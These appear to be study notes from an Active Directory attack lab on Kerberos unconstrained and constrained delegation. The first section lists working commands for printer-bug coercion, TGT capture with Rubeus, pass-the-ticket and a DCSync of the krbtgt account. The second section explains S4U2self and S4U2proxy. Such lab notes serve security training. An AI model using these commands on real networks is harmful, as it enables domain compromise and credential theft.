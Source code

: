 ## Priv Esc - Unconstrained Delegation - Coercion

- Certain Microsoft services and protocols allow any authenticated user to force a machine to connect to a second machine.
- As of January 2025, following protocols and services can be used for coercion:

| Protocol                   | Service        | Default on Server OS      | Ports Required |
| -------------------------- | -------------- | ------------------------- | -------------- |
| MS-RPRN                    | Print Spooler  | Yes                       | 445 (SMB)      |
| MS-WSP                     | Windows Search | No (Default on Client OS) | 445 (SMB)      |
| MS-DFSNM (MDI detects this | DFS Namespaces | No                        | 445 (SMB)      |

- We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug (MS-RPRN) or if enabled, other services.
![[printer Bug.png]]

- We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
```
Rubeus.exe monitor /interval:5 /nowrap
```
- And after that run MS-RPRN.exe (or other) (https://github.com/leechristensen/SpoolSample) on the student VM:
```
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```
- Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
```
Rubeus.exe ptt /tikcet:
```
- Once the ticket is injected, run DCSync:
```
SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt"
```


## Priv Esc - Constrained Delegation with Protocol Transition
- Allows access only to specified services on specified computers as a user.
- Protocol Transition is used when a user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
- To impersonate the user, Service for User (S4U) extension is used which provides two extensions:
	- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password.
	- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

![[Constrained Delegation with Protocol Transition.png]]

1. A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism.
2. The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account.
3. The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK, it returns a forwardable ticket for Joe's account (S4U2Self).
4. The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service.
5. The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (S4U2Proxy).
6. The web service can now authenticate to the CIFS on dcorp-mssql as Joe using the supplied TGS.
